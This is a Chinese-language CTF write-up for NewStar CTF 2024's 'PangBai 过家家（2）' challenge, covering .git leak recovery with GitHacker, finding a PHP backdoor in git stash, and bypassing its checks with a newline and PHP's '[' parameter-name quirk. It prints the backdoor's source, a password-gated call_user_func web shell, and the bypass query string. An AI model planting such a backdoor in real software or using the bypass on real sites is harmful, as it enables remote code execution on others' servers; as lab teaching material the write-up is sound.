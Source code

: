 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# PangBai 过家家（2）

题目所给出的提示是文件泄露（其实用 dirsearch 等扫描工具也可以扫描到 .git 目录）。

![任务一](/assets/images/wp/2024/week2/pangbai2_1.png)

使用 [GitHacker](https://github.com/WangYihang/GitHacker) 工具从 .git 文件夹中泄露文件到本地。

![使用githacker](/assets/images/wp/2024/week2/pangbai2_2.png)

:::info 关于 GitHacker

GitHacker 工具可快速使用 pip 安装：

```bash
pip install githacker
```

:::

随后进入 output 文件夹，可以看到恢复的网站源码：

![查看恢复的源码](/assets/images/wp/2024/week2/pangbai2_3.png)

可以使用 git 命令查看当前项目的信息，比如使用 `git log` 查看提交历史

![查看提交历史](/assets/images/wp/2024/week2/pangbai2_4.png)

使用 `git reset HEAD~1` 可以回到上一个 Commit，或者直接使用 VSCode 打开泄露出来的 Git 存储库，能够更可视化地查看提交历史。

但是很遗憾，提交历史中并没有有价值的东西。查看 Stash：

```bash
git stash list
```

![git stash 输出信息](/assets/images/wp/2024/week2/pangbai2_5.png)

可以看到 Stash 中含有后门（实际上在 GitHacker 泄漏时就有 stash 的输出信息）

::: warning 注意

如果使用 GitHack 或其它的一些 Git 泄露获取工具，可能并不支持恢复 Stash.

:::

::: tip Stash 的作用

有时会遇到这样的情况，我们正在 dev 分支开发新功能，做到一半时有人过来反馈一个 bug，让马上解决，但是又不方便和现在已经更改的内容混杂在一起，这时就可以使用 `git stash` 命令先把当前进度保存起来。随后便可以即时处理当前要处理的内容。使用 `git stash pop` 则可以将之前存储的内容重新恢复到工作区。

又或者，我们已经在一个分支进行了修改，但发现自己修改错了分支，可以通过 Stash 进行存储，然后到其它分支中释放。

一些常见的 Stash 命令如：

- `git stash`

保存当前工作进度，会把暂存区和工作区的改动保存起来。执行完这个命令后，在运行 `git status` 命令，就会发现当前是一个干净的工作区，没有任何改动。使用 `git stash save ``'一些信息``'` 可以添加一些注释。

- `git stash pop [–index] [stash_id]`

从 Stash 中释放内容，默认为恢复最新的内容到工作区。

:::

使用 `git stash pop` 恢复后门文件到工作区。

![恢复文件](/assets/images/wp/2024/week2/pangbai2_6.png)

发现了后门文件 `BacKd0or.v2d23AOPpDfEW5Ca.php`，访问显示：

![访问后门文件对应的网址](/assets/images/wp/2024/week2/pangbai2_7.png)

由于 `git stash pop` 已经将文件释放了出来，我们可以直接查看后门的源码：

```php
<?php

# Functions to handle HTML output

function print_msg($msg) {
    $content = file_get_contents('index.html');
    $content = preg_replace('/\s*<script.*<\/script>/s', '', $content);
    $content = preg_replace('/ event/', '', $content);
    $content = str_replace('点击此处载入存档', $msg, $content);
    echo $content;
}

function show_backdoor() {
    $content = file_get_contents('index.html');
    $content = str_replace('/assets/index.4f73d116116831ef.js', '/assets/backdoor.5b55c904b31db48d.js', $content);
    echo $content;
}

# Backdoor

if ($_POST['papa'] !== 'TfflxoU0ry7c') {
    show_backdoor();
} else if ($_GET['NewStar_CTF.2024'] !== 'Welcome' && preg_match('/^Welcome$/', $_GET['NewStar_CTF.2024'])) {
    print_msg('PangBai loves you!');
    call_user_func($_POST['func'], $_POST['args']);
} else {
    print_msg('PangBai hates you!');
}
```

后面的考点是 PHP 中关于非法参数名传参问题。我们重点关注下面这个表达式：

```PHP
$_GET['NewStar_CTF.2024'] !== 'Welcome' && preg_match('/^Welcome$/', $_GET['NewStar_CTF.2024'])
```

对于这个表达式，可以使用换行符绕过。`preg_match` 默认为单行模式（此时 `.` 会匹配换行符），但在 PHP 中的该模式下，`$` 除了匹配整个字符串的结尾，还能够匹配字符串最后一个换行符。

::: tip 拓展

如果加 `D` 修饰符，就不匹配换行符：

```python
preg_match('/^Welcome$/D',"Welcome\n")
```

:::

但如果直接传参 `NewStar_CTF.2024=Welcome%0A` 会发现并没有用。这是由 `NewStar_CTF.2024` 中的特殊字符 `.` 引起的，PHP 默认会将其解析为 `NewStar_CTF_2024`. 在 PHP 7 中，可以使用 `[` 字符的非正确替换漏洞。当传入的参数名中出现 `[` 且之后没有 `]` 时，PHP 会将 `[` 替换为 `_`，但此之后就不会继续替换后面的特殊字符了因此，GET 传参 `NewStar[CTF.2024=Welcome%0a` 即可，随后传入 `call_user_func` 的参数即可。

![获取到 flag](/assets/images/wp/2024/week2/pangbai2_8.png)
